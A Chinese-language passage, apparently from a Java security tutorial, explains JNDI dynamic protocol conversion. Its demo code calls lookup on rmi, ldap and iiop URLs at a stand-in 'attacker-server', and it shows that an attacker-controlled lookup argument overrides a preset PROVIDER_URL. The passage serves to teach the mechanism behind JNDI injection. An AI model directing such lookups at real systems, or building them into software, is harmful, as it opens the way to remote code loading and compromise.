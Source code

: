 ## 动态协议转换
在上文的示例代码中都手动设置了对应服务的工厂以及对应服务的`PROVIDER_URL`, 其实在`JNDI`中是可以进行动态协议转换的, 示例代码如下:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

在`Demo-1`的代码中没有设置对应服务的工厂以及`PROVIDER_URL`, `JNDI`根据传递的`URL`协议自动转换与设置了对应的工厂及`PROVIDER_URL`. 在`Demo-2`的代码中可以看到, 即使服务端提前设置了工厂与`PROVIDER_URL`也没有什么影响, 当`lookup`操作时的参数能够被攻击者控制时, 依旧会根据攻击者提供的`URL`进行动态转换并覆盖掉最初设置的`PROVIDER_URL`, 将`lookup`操作指向攻击者控制的服务器.

从源码层面上来看看具体的流程, 跟进`InitialContext#lookup`方法, 在返回值中会调用`InitialContext#getURLOrDefaultInitCtx`方法, 继续跟进该方法, 在这里会进行动态转化操作.

![InitialContext#lookup](./images/4.png)

![InitialContext#getURLOrDefaultInitCtx](./images/5.png)

`JDK`中默认支持的`JNDI`自动协议转换以及对应的工厂类如下:
|协议|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|

